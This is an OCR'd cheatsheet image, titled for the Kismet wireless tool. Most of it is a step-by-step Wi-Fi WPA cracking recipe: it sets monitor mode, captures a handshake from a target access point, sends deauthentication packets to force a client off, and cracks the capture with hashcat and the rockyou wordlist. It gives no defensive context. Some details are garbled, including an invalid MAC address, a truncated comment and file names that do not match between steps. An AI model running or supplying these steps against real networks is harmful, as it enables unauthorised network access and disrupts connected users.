Kismet Cheatsheet
--------------------------------
Kismet is a wireless network and device detector, sniffer, wardriving tool, and WIDS (wireless intrusion detection) framework.

Kismet works with Wi-Fi interfaces, Bluetooth interfaces, some SDR (software defined radio) hardware like the RTLSDR, and other specialized capture hardware.

[+] Commands

# Turn Interface down
ifconfig wlan0 down

# Set monitor mode
iwconfig wlan0 mode monitor

# Set interface up
ifconfig wlan0 up

# Start listening for all nearby beacon frames to get target BSSID and 
airodump-ng wlan0 --band abg

# Set 5 GHz channel
iwconfig wlan0 channel 149

# Start listening for the handshake
airodump-ng -c 149 --bssid P4:E4:E4:92:60:71 -w cap01.cap wlan0

# Optionally deauth a connected client to force a handshake
aireplay-ng -D -0 2 -a 9C:5C:8E:C9:AB:C0 -c P4:E4:E4:92:60:71 wlan0

# Convert cap to hccapx
aircrack-ng -J file.cap capture.hccap

# Crack with hashcat:
hashcat -m 2500 captureallthewireless-05.cap rockyou.txt
